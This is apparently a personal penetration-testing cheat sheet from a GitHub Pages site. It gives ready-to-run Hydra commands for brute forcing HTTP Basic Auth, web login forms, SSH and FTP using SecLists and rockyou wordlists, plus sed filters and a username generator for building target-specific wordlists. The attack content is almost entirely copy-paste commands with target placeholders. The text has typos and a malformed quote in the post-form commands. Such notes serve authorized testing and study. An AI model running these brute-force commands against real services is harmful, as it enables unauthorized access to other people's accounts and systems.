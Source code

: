 ```yaml
---
layout: default
---
```


<link rel="shortcut icon" type="image/x-icon" href="favicon.ico">

<[Back to Main Page](../index.html)

# Login Brue Forcing
Creared by Bujitha Ponsuge

## Brute Forcing Login Forms

# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Basic HTTP Auth Forms Using Default Credentials using Hydra

|	Options		|	Description	|
|-----------|:-----------|
|<font color=red>-C </font>|Allows to use Combined Wordlists|
|<font color=red>http-get</font>|	This is the Request Method|
|<font color=red>/</font> | The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are usefull to brute force Login Forms (Admin Panels etc..) using the Hydra Module **http[s]-post-form**

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 

Combined Wordlist

```console
hydra -c /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Pasword Brute Force

> NOTE: Try default usernames that are often used in admin pannels.
>  admin,administrator,wpadmin, root etc.

```console
hydra -l admin -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```
# PLACEHOLDER

# Usefull Commands
The following commands can help if you want to create a personalised wordlist


```console
sed -ri '/^.{,7}$/d' file.txt
```
This command will remove anything that is shorter than eight characters 
```console
sed -ri '/[!-/:-@\[-`\{-~]+/!d' file.txt
```
This command will remove anything that does not contain special characters
```console
sed -ri '/[0-9]+/!d' file.txt
```
This will remove anything that has no numbres

```console
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Name-of-target > file.txt
```

This tool can be used to create a custom username wordlist, using an name of an user.

# Service Authentication Brute Forcing (SSH & FTP)


```console
hydra -L username-list -P password-list -u -f ssh://<TargetIP:Port> -t 4 
```

```console
hydra -l username-list -P password-list ftp://<FTPIP>
```

# PLACEHOLDER

